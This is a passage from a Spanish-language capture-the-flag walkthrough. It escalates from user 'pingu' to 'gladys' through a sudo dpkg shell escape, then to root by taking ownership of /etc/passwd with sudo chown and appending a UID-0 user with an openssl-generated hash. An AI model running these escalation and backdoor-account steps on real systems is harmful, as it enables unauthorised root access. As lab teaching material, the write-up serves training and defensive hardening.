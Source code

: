 Y con esto seremos el usuario `pingu`.

## Escalate user gladys

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for pingu on 71405f43252f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pingu may run the following commands on 71405f43252f:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Vemos que podemos ejecutar los binarios `nmap` y `dpkg` como el usuario `gladys` por lo que haremos lo siguiente:

```shell
sudo -u gladys dpkg -l
!/bin/bash
```

Y con esto veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gladys on 71405f43252f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on 71405f43252f:
    (root) NOPASSWD: /usr/bin/chown
```

Veremos que podemos ejecutar el binario `chown` como el usuario `root`, por lo que haremos lo siguiente:

```shell
openssl passwd "1234"
```

Info:

```
$1$NxevQ9gO$Ia4JXYw9vwiqWG8bfjyCm1
```

```shell
sudo chown gladys:gladys /etc/passwd
echo "fake:$1$NxevQ9gO$Ia4JXYw9vwiqWG8bfjyCm1:0:0::/home/fake:/bin/bash" >> /etc/passwd
```

Y si hacemos lo siguiente:

```shell
su fake
```

Metemos como contraseña `1234` y veremos que somo `root` por lo que habremos terminado la maquina.
